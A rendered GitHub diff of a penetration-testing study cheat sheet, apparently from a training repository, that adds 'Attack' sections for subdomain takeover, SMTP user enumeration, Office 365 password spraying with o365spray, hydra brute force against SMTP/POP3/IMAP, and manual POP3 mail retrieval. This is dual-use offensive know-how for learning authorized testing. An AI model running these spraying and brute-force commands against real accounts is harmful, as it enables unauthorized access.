

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md, the part around one of its changes. Shown at 93% size. Drawn GitHub-style; blank space fills up the shorter version.

`````diff
--- a/Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md
+++ b/Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md
@@ -69,6 +89,10 @@ $ subfinder -d domain (Subdomain enum with subfinder)
 $ python3 sublist3r.py -d <domain-name> -n (Subdomain enum with sublister)
 $ ffuf -u "http://FUZZ.domain" -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-110000.txt (Subdomain enum with ffuf)
 ````
+**Attack**
+````
+Subdomain takeover: https://github.com/EdOverflow/can-i-take-over-xyz
+````
 
 ### SMTP
 ````
@@ -77,13 +101,24 @@ $ sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v (Verify if open-relay
 $ telnet <FQDN/IP> 25 (Connect to smtp service)
 $ VRFY root (Verify if user exist)
 ````
-
+**Attack**
+````
+$ smtp-user-enum -M RCPT -U userlist.txt -D <domain> -t <IP> (User enumeration via smtp server)
+$ python3 o365spray.py --validate --domain msplaintext.xyz
+$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
+$ hydra -L users.txt -p '<Password>' -f IP smtp (We can use this command against pop3 and imap)
+$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
+smtp-user-enum: https://github.com/pentestmonkey/smtp-user-enum
+o365spray: https://github.com/0xZDH/o365spray
+````
 ### IMAP & POP3
 ````
 $ sudo nmap 10.129.14.128 -sV -p110,143,993,995 -sC
 $ curl -k 'imaps://<FQDN/IP>' --user <user>:<password> (Log in to the IMAPS service using cURL.)
 $ openssl s_client -connect <FQDN/IP>:imaps (Connect to the IMAPS service.)
 $ openssl s_client -connect <FQDN/IP>:pop3s ( Connect to the POP3s service.)
+$ telnet <IP> 110 (Connect without encryption)
+$ hydra -L users.txt -p '<Password>' -f IP pop3/imap
 ````
 **Example IMAPS**
 ````
@@ -99,6 +134,14 @@ a list "" *
 select DEV.DEPARTMENT.INT
 a status DEV.DEPARTMENT.INT (MESSAGES UNSEEN RECENT)
 A1 UID FETCH 1 (UID RFC822.SIZE BODY.PEEK[])
+````
+**Example POP3**
+````
+$ telnet <IP> 110
+$ USER <user>
+$ PASS <password>
+$ LIST
+$ RETR 1
 ````
 
 ### SNMP
`````
Also changed, not shown: other parts of Initial Enumeration and Footprinting/5_host_and_service_enumeration_cheat_sheet.md (+115 -0 lines).
